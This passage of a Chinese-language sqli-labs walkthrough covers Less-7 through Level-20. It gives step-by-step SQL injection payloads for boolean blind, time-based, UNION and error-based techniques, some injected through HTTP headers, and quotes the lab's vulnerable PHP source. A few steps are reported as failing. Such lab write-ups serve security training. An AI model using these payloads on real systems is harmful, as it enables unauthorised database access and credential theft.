+ 注入以下语句

~~~ shell
?id=1')--+
~~~



输入id=1')--+发现依然报错

+ 注入以下语句

~~~ shell
?id=1'))--+
~~~


再试试是不是双括号注入<code>id=1'))--+</code>，发现页面显示正常。那么它的过关手法和前面就一样了选布尔盲注就可

+ 注入以下语句

~~~ shell
?id=1')) and length((select database()))>7--+
~~~


页面显示正常，通过修改数据库长度值再根据页面显示是否正常确定数据库长度值

+ 注入以下语句

~~~ shell
?id=1')) and ascii(substr((select database()),1,1))=115--+
~~~


修改参数根据页面是否回显正确逐一爆破数据库名

+ 再修改参数同时注入以下语句确定联合数据表名长度

~~~ shell
?id=1')) and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>5 --+
~~~


+ 修改参数注入以下语句爆破联合数据表名

~~~ shell
?id=1')) and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>50--+
~~~

+ 修改参数注入以下语句爆破联合字段名长度

~~~ shell
?id=1')) and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）')>20--+
~~~

+ 修改参数注入以下语句爆破字段名

~~~ shell
?id=1')) and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）'),1,1))>99--+
~~~

+ 修改参数爆破想要的内容

~~~ shell
?id=1')) and ascii(substr((select group_concat(（字段名）,（字段名）) from （数据表名）),1,1))>50--+
~~~

### Less-8

+ 正常打开页面


+ 注入如下语句

~~~ shell
?id=1
~~~


+ 再注入如下语句

~~~ shell
?id=1'
~~~

没有错误信息，但是和正确页面不同，所以实际是个错误页面

+ 接下来就和第五关 一样了，返回页面的正确与否可辅助爆破，具体爆破方式直接参考第五关的爆破方法

### Less-9

+ 正常打开页面


第九关不管注入什么页面显示的东西都一样，这时布尔盲注不适合，布尔盲注适合页面对错误和正确结果有不同反应。如果页面一直不变这时可用时间注入，时间注入和布尔盲注两种没有多大差别只不过时间盲注多了<code>if</code>函数和<code>sleep()</code>函数。

+ 首先注入<code>if(a,sleep(10),1)</code>，如果a结果是真的那么执行<code>sleep(10)</code>页面延迟10秒，如果a的结果是假的执行1且页面不延迟。通过页面时间判断<code>id</code>参数是单引号字符串

~~~ shell
?id=1' and if(1=1,sleep(5),1) --+
判断参数构造。
~~~


由例子发现时间注入可行

+ 注入如下语句判断数据库名长度

~~~ shell
?id=1'and if(length((select database()))>9,sleep(5),1)--+
判断数据库名长度
~~~


如果数据库名的长度大于9则执行<code>sleep(5)</code>页面延迟五秒，如果数据库名长度不大于9则执行1且页面不延迟

+ 注入如下语句逐一判断数据库字符

~~~ shell
?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
~~~


由于页面有延迟，说明数据库名的第一个字符的ASCII字符=115，查询<code>ASCII</code>表可得数据库名第一个字符是's'


+ 注入如下语句逐一判断所有表名长度

~~~ shell
?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
~~~


由于页面有延迟，说明所有表名长度大于13


+ 注入如下语句逐一判断所有表名

~~~ shell
?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
~~~


由于页面有延迟，说明所有数据表名第一个字符的<code>ASCII</code>值大于99


+ 
  注入如下语句逐一判断所有字段名的长度

~~~ shell
?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
~~~

由于页面没有延迟，说明所有字段名长度不大于20

+ 注入如下语句逐一判断字段名

~~~ shell
?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
~~~

由于页面有延迟，说明所有字段名第一个字符的<code>ASCII</code>值大于99


+ 注入如下语句逐一判断字段内容长度

  ~~~ shell
  ?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
  ~~~

  由于页面有延迟，说明字段内容长度大于109

  

+ 注入如下语句逐一判断内容

  ~~~ shell
  ?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
  ~~~

  由于页面有延迟，说明内容第一个字符的<code>ASCII</code>值大于50


+ 最终爆破成功

### Less-10

+ 正常打开页面


第十关和第九关一样，不管注入什么页面显示的东西都一样，这时布尔盲注不适合，布尔盲注适合页面对错误和正确结果有不同反应。如果页面一直不变这时可用时间注入，时间注入和布尔盲注两种没有多大差别只不过时间盲注多了<code>if</code>函数和<code>sleep()</code>函数。

+ 第十关和第九关采用相同的注入方法，首先注入<code>if(a,sleep(10),1)</code>，如果a结果是真的那么执行<code>sleep(10)</code>页面延迟10秒，如果a的结果是假的执行1且页面不延迟。通过页面时间判断<code>id</code>参数是双引号字符串，这也是第十关唯一与第九关不同的地方

~~~ shell
判断参数构造
?id=1" and if(1=1,sleep(10),1)--+
~~~


页面有延迟，说明注入可行

+ 注入如下语句判断数据库长度

~~~ shell
?id=1"and if(length((select database()))>5,sleep(5),1)--+
判断数据库名长度
~~~


页面延迟加载说明数据库名长度大于5，改变参数逐一确定数据库名长度

+ 注入如下语句逐一判断数据库名

~~~ shell
?id=1" and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
~~~


页面有延迟，说明数据库名的第一个字符的<code>ASCII</code>值是115，判断数据库名的其他字符可逐一改变参数去判断

+ 逐一判断联合数据表名长度

~~~ shell
?id=1"and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
~~~


页面有延迟，说明联合数据表名长度大于13，再逐渐改变参数准确判断联合数据表名长度

+ 逐一判断联合数据表名字符

~~~ shell
?id=1" and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
~~~


页面有延迟说明联合数据表名的第一个字符的<code>ASCII</code>值大于99，再逐渐改变参数确认联合数据表名的一个字符的<code>ASCII</code>值进而确定联合数据表名的第一个字符，然后再确定联合数据表名的其他字符

+ 判断联合字段名长度

~~~ shell
?id=1" and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>10,sleep(5),1)--+
~~~


页面有延迟，说明联合字段名长度大于10，再逐渐改变参数确认联合字段名长度

+ 确定联合字段名字符

~~~ shell
?id=1" and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
~~~


页面有延迟，说明联合字段名第一个字符的<code>ASCII</code>值大于99，改变参数确定后联合字段名第一个字符的<code>ASCII</code>值后即可确定联合字段名的第一个字符，再改变参数确定联合字段名的其他字符

+ 逐一检测内容

~~~ shell
?id=1" and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
~~~

页面有延迟，说明内容的第一个字符的<code>ASCII</code>值大于50，最终改变参数逐一确定内容的其他字符

+ 爆破完成，就是需要的步骤和内容很多

### Less-11

+ 第十一关页面发生变化，是账户登录页面。则注入点在输入框里。前十关用的是get请求参数都体现在url上，而从十一关开始是post请求，参数在表单里。可直接在输入框注入且参数不是一个还是两个。据前面的认识可猜测sql语句大概形式应该是`username=参数 and password=参数`，只是不知是字符型还是整数型

+ 当输入`1`时出现错误图片


+ 当输入`1'` 时出现报错


根据报错信息可推断该sql语句`username='参数' and password='参数'`

+ 知道sql语句我们可构造一个恒成立的sql语句看能查询出什么，这里我们用`--+`注释就不行，需换`#`注释， 这个就和我们第一关是一样了。使用联合注入就可以获取数据库信息；首先注入万能语句

~~~ shell
1' or 1=1 #
~~~


+ 和第一关一样，先注入以下语句判断回显位置

~~~ shell
1' union select 1,2 #
~~~


+ 注入以下语句确定版本和数据库

~~~ shell
1' union select version(),database() #
~~~


+ 注入如下语句爆破数据表

~~~ shell
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security'#
~~~

+ 注入语句爆破字段

~~~ shell
1' union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'#
~~~


+ 最后爆破数据

~~~ shell
1' union select 1,group_concat(username,id,password) from users#
~~~


### Level-12

+ 首先打开第十二关，可以看到和第十一关的页面类似


+ 输入`1`和`1'`页面都没有反应


+ 输入<code>1"</code>页面出现报错，可知sql语句是双引号且有括号


+ 使用万能语句判断是否存在sql注入

~~~ shell
1") or 1=1
~~~


+ 注入语句爆破版本号和数据库名

~~~ shell
1") union select version(),database() #
~~~


+ 注入语句爆破数据表

~~~ shell
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security' #
~~~


+ 注入如下语句爆破字段

~~~ shell
1") union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' #
~~~


+ 爆破用户和密码字段

~~~ shell
1") union select 1,group_concat(username,id,password) from users #
~~~


### Level-13 POST盲注 回显报错

+ 首先进入第十三关，页面如下


+ 使用`updatexml`报错注入

~~~ tex
UPDATEXML (XML_document, XPath_string, new_value)
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
	第三个参数：new_value，String格式，替换查找到的符合条件的数据
作用：改变文档中符合条件的节点的值，改变XML_document中符合XPATH_string的值

当我们XPath_string语法报错时候就会报错，updatexml()报错注入和extractvalue()报错注入基本差不多
~~~

+ 输入1，页面反应如下没有异常信息


+ 注入`1"`，页面正常没有其他错误


+ 注入`1'`，页面发生错误，说明`sql`语句是单引号且有括号


+ 注入如下语句判断是否存在`sql`注入

~~~ shell
1') or 1=1 # 
~~~


由上图，可知确实存在`sql`注入

+ 注入如下语句爆破字段数

~~~ shell
1') order by 3#
~~~


有报错回显，说明字段数是3

再注入如下语句爆破字段数

~~~ shell
1') order by 2#
~~~


没有报错回显，说明字段数是2

+ 爆破数据库名

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,database(),0x7e),1) #
~~~


爆破出数据库名是`security`

+ 注入如下语句爆破数据表名

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)#
~~~


爆破出所有的数据表：`emails,referers,uagents,users`

+ 注入如下语句爆破列名

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),0x7e),1)#
~~~


爆破出列名：`id,username,password`

+ 注入如下语句爆破出所有数据

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1)#
~~~


爆破出所有数据：`DumbDumb,AngelinaI-kill-you,Dum`

### Level-14 POST盲注 回显报错

+ 首先进入第十四关，页面如下


+ 首先注入<code>1</code>，页面没有反应


+ 然后注入<code>1'</code>，页面也没有反应


+ 最后注入<code>1"</code>，页面出现报错回显


+ 然后注入<code>1" #</code>闭合


+ 注入语句看是否有<code>sql</code>语句

~~~ shell
1" or 1=1 # 
~~~


登录成功，可看出确实存在<code>sql</code>语句

+ 确认3个回显位

~~~ shell
1" order by 3#
~~~


确认是否有2个回显位

~~~ shell
1" order by 2#
~~~


由此可确定只有两个回显位

+ 确认数据库名

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,database(),0x7e),1) #
~~~


+ 爆破数据表名

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)#
~~~


+ 爆破数据字段名

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),0x7e),1)#
~~~


+ 爆破数据

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1)#
~~~


### Level-15 时间盲注

+ 首先打开第十五关如下


+ 注入<code>1</code>、<code>1'</code>、<code>1"</code>，发现页面如下


+ 注入如下语句

~~~ shell
1' or 1=1 #
~~~


返回了正确页面，由上边返回错误页面这里返回正确页面可尝试布尔盲注或时间盲注

+ 判断是否有延时

~~~ shell
admin' and sleep(5) #
~~~

由于<code>1</code>不行没有反应所以<code>admin</code>代替<code>1</code>，而且只能是<code>admin</code>其他字符没有反应


页面有延时，则时间盲注可用

+ 爆数据库长度

~~~ shell
admin' and if(length(database())=8,sleep(5),null) #
~~~


由于页面产生了延时，所以数据库名长度是8

+ 爆库名，从左边第一个字母开始，判断库名第一个字母是不是`s`

~~~ shell
admin' and if(left(database(),1)='s',sleep(5),null) #

admin' and if(left(database(),2)='se',sleep(5),null) #

......
~~~


由于页面有延时，因此数据库名是"se..."。得到的最终结果是<code>security</code>

或者注入如下语句也可，是同样的效果

~~~ shell
admin' and if(ascii(substr(database(),0,1))=115,1,sleep(5))#

admin' and if((select (substr(database(),1,1))="s") ,sleep(5), null)#
~~~

+ 爆表名

~~~ shell
admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e' ,sleep(5),null)#

admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),2)='em' ,sleep(5),null)#

admin' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),3)='ema' ,sleep(5),null)#

......
~~~


根据页面是否有延时逐个 判断数据表的字符是否正确

+ 一个个测太麻烦，这里就不测下去了，知道可以使用时间盲注就行

### Level-16 时间盲注

+ 首先进入第十六关页面


+ 注入<code>1</code>、<code>1'</code>、<code>1"</code>，无法正确闭合


+ 注入<code>1")</code>正确闭合<code>sql</code>语句

~~~ shell
1") or 1=1 #
~~~


返回了正确页面，由上边返回错误页面这里返回正确页面由此可尝试布尔盲注或时间盲注

+ 判断是否有延时

~~~ shell
admin") and sleep(5) #
~~~

由于<code>1</code>不行没有反应所以<code>admin</code>代替<code>1</code>，而且只能是<code>admin</code>其他字符没有反应


页面有延时，则时间盲注可用

+ 爆数据库长度

~~~ shell
admin") and if(length(database())=8,sleep(5),null) #
~~~


页面有延迟，说明数据库名长度是8

+ 爆联合数据库名，从左边第一个字母开始，判断库名第一个字母是不是`s`

~~~ shell
admin") and if(left(database(),1)='s',sleep(5),null) #

......
~~~


由于页面有延时，因此联合数据库名是"s..."。按照前面十几关的经验，得到的最终结果应该是<code>security</code>

或者注入如下语句也可，是同样的效果

~~~ shell
admin") and if(ascii(substr(database(),0,1))=115,1,sleep(5))#

admin") and if((select (substr(database(),1,1))="s") ,sleep(5), null)#
~~~

+ 爆联合数据表名

~~~ shell
admin") and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e' ,sleep(5),null)#

......
~~~


页面有延迟，说明联合数据表名的第一个字符是"e"

+ 爆破数据就不写了，都是一样的思路使用时间盲注，利用页面是否有延迟判断返回数据是否正确

###  Level-17  修改密码 

#### 方法一

+ 首先爆破数据库名

~~~ shell
admin
1' and updatexml(1,concat(0x7e,database(),0x7e),1) #
~~~


爆破得到的数据库名是"security"

+ 爆破数据表名

~~~ shell
admin
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)#
~~~


爆破得到的数据表是

~~~ tex
emails,referers,uagents,users
~~~

+ 爆破列名

~~~ shell
admin
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),0x7e),1)#
~~~


爆破得到的列名是

~~~ tex
id,username,password
~~~

+ 爆破数据

~~~ shell
admin
1' and (updatexml(1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1))#
~~~


爆破出现错误：

~~~ tex
You can't specify target table 'users' for update in FROM clause
~~~

原因是：

~~~ tex
mysql数据不支持查询和更新是同一张表,所以需加一个中间表。这个关卡需要输入正确账号因为是密码重置页面，所以爆出该账户的原始密码,如果查询时不是users表就不报错
~~~

#### 方法二

~~~ tex
	根据页面展示是一个密码重置页面，即已经登录系统了，然后查看我们源码，是根据我们提供的账户名去数据库查看用户名和密码，如果账户名正确那么将密码改成你输入的密码。再执行这条sql语句之前会对输入的账户名进行检查，对输入的特殊字符转义。所以我们能够利用的只有更新密码的sql语句。sql语句之前都是查询，这里有一个update更新数据库里面信息。所以之前的联合注入和布尔盲注以及时间盲注都不能用了。这里我们会用到报错注入，用三种mysql报错注入
~~~


~~~ tex
这里介绍的报错注入可以选择extractvalue()报错注入，updatexml()报错注入和group by()报错注入。下面简单说一下者三种报错注入的原理。
~~~

+ **extractvalue报错注入**

~~~ tex
extractvalue(XML_document,XPath_string)
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
	作用：从XML_document中提取符合XPATH_string的值，当我们XPath_string语法报错时候就会报错，下面的语法就是错误的。concat和我前面说的的group_concat作用一样
~~~

~~~ shell
1' and (extractvalue(1,concat(0x5c,version(),0x5c)))#    爆版本
1' and (extractvalue(1,concat(0x5c,database(),0x5c)))#   爆数据库
 
1' and (extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c)))#   爆表名
1' and (extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c)))# 
 爆字段名
 
1' and (extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c)))#      爆字段内容该格式针对mysql数据库。
1' and (extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c)))#                      爆字段内容。
~~~

+ **updatexml报错注入**

~~~ tex
UPDATEXML (XML_document, XPath_string, new_value)
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
	第三个参数：new_value，String格式，替换查找到的符合条件的数据
	作用：改变文档中符合条件的节点的值，改变XML_document中符合XPATH_string的值
	当我们XPath_string语法报错时候就会报错，updatexml()报错注入和extractvalue()报错注入基本差不多。
~~~

~~~ shell
最后爆字段和上面一样如果加一个中间表

123' and (updatexml(1,concat(0x5c,version(),0x5c),1))#     爆版本
123' and (updatexml(1,concat(0x5c,database(),0x5c),1))#    爆数据库
 
123' and (updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c),1))#      爆表名
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1))#
   爆字段名
 
123' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1))#
爆密码该格式针对mysql数据库。

爆其他表就可以，下面是爆emails表
123' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x5c),1))#
 
1' and (updatexml (1,concat(0x5c,(select group_concat(id,email_id) from emails),0x5c),1))#   爆字段内容。
~~~

+ **group by报错注入**

[深入理解group by报错注入](https://blog.csdn.net/m0_53065491/article/details/121893986)

~~~ shell
group by报错注入比前面两个复杂一点

123' and (select count(*) from information_schema.tables group by concat(database(),0x5c,floor(rand(0)*2)))#     爆数据库
123' and (select count(*) from information_schema.tables group by concat(version(),0x5c,floor(rand(0)*2)))#      爆数据库版本
 
1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e,floor(rand(0)*2)))#    通过修改limit后面数字一个一个爆表
1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e,floor(rand(0)*2)))#        爆出所有表
 
1' and (select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e,floor(rand(0)*2)))#    爆出所有字段名
1' and (select count(*) from information_schema.columns group by concat(0x7e,(select group_concat(username,password) from users),0x7e,floor(rand(0)*2)))#    爆出所有字段名
 
1' and (select 1 from(select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select password from users where username='admin1'),0x7e,floor(rand(0)*2)))a)#    爆出该账户的密码。
~~~

#### 方法三

+ 看下源码

~~~ php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

function check_input($value){
	if(!empty($value)){
		// truncation (see comments)
		$value = substr($value,0,15);
		}
		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc()){
			$value = stripslashes($value);
		}
		// Quote if not a number
		if (!ctype_digit($value)){
			$value = "'" . mysql_real_escape_string($value) . "'";
		}
		else{
		$value = intval($value);
		}
	return $value;
	}

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];

//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'User Name:'.$uname."\n");
fwrite($fp,'New Password:'.$passwd."\n");
fclose($fp);

// connectivity          //查询语句
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
$result=mysql_query($sql);       //应该是上面一句语句的查询结果
$row = mysql_fetch_array($result);     //把查询结果变成一个无序数组
//echo $row;
	if($row)
	{
  		//echo '';	
		$row1 = $row['username'];  	
		//echo 'Your Login name:'. $row1;
		$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
		mysql_query($update);
  		echo " ";
	
		if (mysql_error())
		{
			echo '';
			print_r(mysql_error());          //返回报错信息！！！！！！！！
			echo "  ";
			echo "";
		}
		else
		{
			echo '';
			//echo " You password has been successfully updated " ;		
			echo " ";
			echo "";
		}
	
		echo '';	
		//echo 'Your Password:' .$row['password'];
  		echo "";
	
  	}
	else  
	{
		echo '';
		//echo "Bug off you Silly Dumb hacker";
		echo " ";
		echo '';
		echo "";  
	}
}
?>
~~~

可以看到这里进行查询的语句是"SELECT username, password FROM users WHERE username= $uname LIMIT 0,1"。
进行更改密码的语句是"UPDATE users SET password = '$passwd' WHERE username='$row1'"。

总览代码全文，发现，虽然查询和更新语句我们能对更新语句（看下文）进行注入，但是，查询和更新语句的结果不会回显，说白了就是注了也白注。

但是也可以发现，代码是回给我们返回报错信息的，那我们就可以进行报错注入。

因为代码中$row和$row1一定要存在，才能进行更新语句，并且能返回报错。所以用户名一定要存在，使查询语句返回数据（用户名：DUMB），以及我们不能从查询语句注入，只能从更新语句"UPDATE users SET password = '$passwd' WHERE username='$row1'"注入，并且注入点是$passwd。


很容易看出闭合是单引号`'`，更新语句注入点前不是select语句，回显位可以不用管。

放一张思维导图里面对报错注入的归整：


+ 爆库

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e))--+&submit=Submit
~~~

+ 爆表

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow'),0x7e))--+&submit=Submit
~~~

+ 爆列

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow' and table_name='flag'),0x7e))--+&submit=Submit
~~~

+ 爆字段值

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(flag4) from ctfshow.flag),0x7e))--+&submit=Submit

倒着读
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select reverse(group_concat(flag4)) from ctfshow.flag),0x7e))--+&submit=Submit
~~~

### Level-18 UserAgent头注入

+ 首先启动<code>burpsuite</code>和打开<code>sqli-labs</code>网站第十八关


+ 用账号<code>dumb</code>和密码<code>dumb</code>测试，发现页面会展示<code>ip</code>地址和<code>user-agent</code>头


+ 判断闭合方式

  + 在<code>Username</code>和<code>Password</code>上注入发现会被转义，无法注入
  + 在<code>user-agent</code>上加上<code>'</code>会有报错

  

  

  + 而在<code>user-agent</code>上加上<code>'and '1' = '1</code>，成功闭合

  


+ 爆库名

~~~ shell
两条语句均可用
' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1
~~~


成功爆出库名<code>security</code>

+ 爆表名

~~~ shell
insert into 'security'.'某个表'(uagent,ipadd,username) values('' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1','ip地址','用户名')

'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema =database()),0x7e),1) and '1'='1

'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '

'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '
~~~


爆表出错，不知道什么原因

+ 爆列名

~~~ shell
'and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e)) and '
~~~


爆列名会出现错误，不知道什么原因

+ 爆数据

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1) and '1'='1
~~~


爆数据发生错误，不知道什么原因

### Level-19 Referer头注入

+ 首先启动<code>burpsuite</code>和打开<code>sqli-labs</code>靶场


+ 输入账号<code>dumb</code>和密码<code>dumb</code>，会有<code>ip</code>地址和<code>referer</code>头


+ 启动<code>burpsuite</code>和开启监测端口，重新提交<code>post</code>参数，注入以下<code>payload</code>爆库名

~~~ shell
' and extractvalue(1,concat(0x7e,(select database()))) and '1'='1
~~~


爆出的库名是<code>security</code>

+ 爆数据表名

~~~ shell
'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '
~~~


+ 爆列名

~~~ shell
'and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e)) and '
~~~


+ 爆数据名

~~~ shell
' and extractvalue(1,concat(0x7e,(select group_concat(username,password)from users),0x7e)) and '
~~~


### Level-20 Cookie头注入

+ 首先启动<code>burpsuite</code>和打开<code>sqli-labs</code>靶场


+ 输入账号<code>admin</code>和密码<code>admin</code>，返回<code>cookie</code>头


+ 确定闭合方式

  + 首先用单引号<code>'</code>闭合，页面出现报错

  ~~~ shell
  '
  ~~~

  

  

  

  + 然后使用<code>' and '1' = '1</code>，语句正确闭合

  

  

+ 启动<code>burpsuite</code>和开启监测端口，重新提交<code>post</code>参数，注入以下<code>payload</code>爆库名

~~~ shell
' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1

' and extractvalue(1,concat(0x7e,(select database()),0x7e)) # 
~~~


+ 爆破数据表名

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #
~~~


+ 爆破列名

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) #
~~~


+ 爆破数据

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1) #
~~~


### Level-21

